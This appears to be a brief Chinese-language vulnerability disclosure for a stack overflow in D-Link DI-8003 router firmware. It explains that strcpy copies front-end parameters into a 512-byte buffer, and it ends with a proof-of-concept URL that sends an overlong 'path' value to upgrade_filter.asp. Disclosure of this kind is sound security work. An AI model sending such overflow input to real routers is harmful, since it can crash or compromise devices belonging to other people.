



# Dlink_DI8003_stackoverflow




v15大小为512，这里v10和v11都是从前端取得的参数。


但需要过前提条件，opt参数中有get和set字符串。


---

strcpy造成栈溢出



```
http://192.168.0.1/upgrade_filter.asp?path=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```


---
